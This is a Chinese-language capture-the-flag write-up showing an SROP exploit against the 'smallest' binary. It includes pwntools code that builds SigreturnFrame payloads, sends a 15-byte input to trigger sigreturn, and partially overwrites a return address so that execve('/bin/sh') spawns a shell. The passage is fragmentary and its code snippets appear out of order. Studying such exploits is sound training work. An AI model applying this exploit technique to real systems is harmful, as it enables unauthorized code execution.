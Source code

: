 ```python
read.rsi = stack_addr  #read函数二参
read.rdx = 0x400  #read函数三参
read.rsp = stack_addr  #和rsi寄存器中的值保持一致，确保read函数写的时候rsp指向stack_addr
read.rip = syscall_ret #使得rip指向syscall的位置，在部署好read函数之后能直接调用
payload = p64(start_addr) + p64(syscall_ret) + str(read)
sh.send(payload)
sh.send(payload[8:8+15])  #输入15个字节使得rax寄存器的值为15，进行sigreturn调用

sh.interactive()
```

### 使用sigreturn对execve函数调用的寄存器进行部署
这部分和上一部分部署的方式近乎相同，也是通过sigreturn对寄存器部署，只是有几点小小的区别：

+ execve函数的调用我们只需要对rdi寄存器部署，存放/bin/sh字符串所在地址就可以了，rsi寄存器和rdx寄存器置零就可以了
+ 不止需要对execve函数所用的寄存器进行部署，还需要考虑/bin/sh字符串放在哪个位置
+ 由于前面在部署read函数寄存器的时候rsi寄存器中的值为之前write函数泄露出来的stack_addr，所以这次的位置是从stack_addr开始写的

接下来还是从对寄存器部署内容开始：

```python
----------------------------------
| 寄存器和指令 |      存储数据      | 
----------------------------------
|    rax     | execve函数系统调用号| 
----------------------------------
|    rdi     |     binsh_addr    | 
----------------------------------
|    rsi     |         0         | 
----------------------------------
|    rdx     |         0         | 
----------------------------------
|    rsp     |    stack_addr     | 
----------------------------------
|    rip     |    syscall_ret    | 
----------------------------------
```

对寄存器的构造和前面对read函数部署大致相同，只不过是函数的参数有所改变导致寄存器中的值不一样，就不多讲了

接下来我们需要考虑的就是/bin/sh字符串应该放在哪个位置，这个时候就需要进行计算了，依照前面部署read函数寄存器的方法，我们也规划一下部署execve在栈中的payload结构。主要方法差不多首先返回到原有的xor rax,rax命令处，使shell界面等待我们输入，输入的字节长度为15，作为sigreturn的系统调用号存放在rax寄存器中，然后将在栈中部署好的execve寄存器值转移至相应寄存器中完成对execve的调用。函数调用payload如下：

> payload_exe = start_addr + syscall_ret + frame(execve)
>

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598248632688-7e3f6684-0deb-4bc7-98b9-6c267490e186.png)

那么到这为止我们函数调用的方面就已经部署好了，如果想知道/bin/sh字符串的地址，就需要知道前面payload_exe的长度时多少，这个长度没法直接通过查找去计算，因为pwntools里面的SigreturnFrame函数是集成好的，我也没找到这个函数具体的长度是多少，不过没有关系，可以直接len(payload_exe)输出看一下就可以了

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE #源代码syscall处地址
start_addr = 0x00000000004000B0  #源代码xor rax,rax处地址

payload = p64(start_addr) * 3  #部署三个start_addr，完成三次read函数的调用
sh.send(payload)

#覆盖第二个start_addr的最后一个字节变成0x00000000004000B3，越过对rax寄存器的清零，还使得rax寄存器值变为1
sh.send('\xb3')  
```